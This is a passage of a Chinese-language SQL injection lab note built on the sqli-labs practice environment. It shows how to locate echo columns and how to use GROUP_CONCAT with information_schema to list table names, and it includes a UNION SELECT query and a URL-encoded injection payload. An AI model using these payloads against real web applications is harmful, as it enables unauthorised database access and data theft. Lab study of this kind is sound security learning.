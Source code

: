 
- 最上面的那行告诉了回显点在 1 和 3

- 在SQL语句中找到相应位置进行修改

- 最后可以看到在 1 和 3 对应的位置，分别修改成了 数据库的名称 demo 和版本 8.0.34

  
  

<hr>

  

## Group_concat

  

到这里的时候换了一个数据库，所以数据库内容有些许不同。

  

>GROUP_CONCAT时MySQL数据库提供的一个聚合函数

  
  

在数据库测试

  

`SELECT * FROM user WHERE id='-1' UNION SELECT 1, 2, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='demosql' -- ;`

  


![](../post_pre/pics/SQLi-labs/groupconcat1.png)
  

不过在demo界面进行测试的时候出了点意外：

  

- 查询失败: SELECT command denied to user 'demo'@'localhost' for table 'tables'

  

悲伤的故事，没有足够权限……提权的事情之后说。

  

不过我们看sqli lab

  

- `id=-1%27%20union%20select%201,2,%20GROUP_CONCAT(table_name)%20from%20information_schema.tables%20WHERE%20table_schema=%27security%27--+`

  